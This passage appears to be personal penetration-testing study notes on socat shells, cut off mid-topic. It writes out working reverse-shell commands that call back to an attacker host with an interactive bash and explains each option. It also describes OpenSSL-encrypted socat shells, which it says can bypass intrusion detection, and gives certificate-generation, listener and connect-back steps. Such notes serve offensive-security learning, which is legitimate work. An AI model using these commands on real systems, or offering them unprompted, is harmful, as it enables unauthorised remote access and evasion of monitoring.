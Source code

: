 socat TCP-L:<port> FILE:`tty`,raw,echo=0   // use this for fully stablized shell

	target must have socat installed or we can even transfer a socat precompiled binary 


The special command is as follows:

socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane

	This is a handful, so let's break it down.


	first part is easy -- we're linking up with the listener running on our own machine

	 The second part of the command creates an interactive bash session with  EXEC:"bash -li"

	 We're also passing the arguments: pty, stderr, sigint, setsid and sane:


	 		pty, allocates a pseudoterminal on the target -- part of the stabilisation process
			
			stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
			
			sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
			
			setsid, creates the process in a new session
			
			sane, stabilises the terminal, attempting to "normalise" it.

--------

socat encrypted shells : 

One of the many great things about socat is that it's capable of creating encrypted shells -- both bind and reverse. Why would we want to do this? Encrypted shells cannot be spied on unless you have the decryption key, and are often able to bypass an IDS as a result.

tcp should be replaced with openssl in commands ,

first ,  a certificate is generated to use for encryption 

openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt


then merge this shell.key and shell.crt 

cat shell.key shell.crt > shell.pem

into a shell.pem file 

then setup  a listener : 

socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -


verify=0 tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority.

To connect back, we would use:

socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash

The same technique would apply for a bind shell:

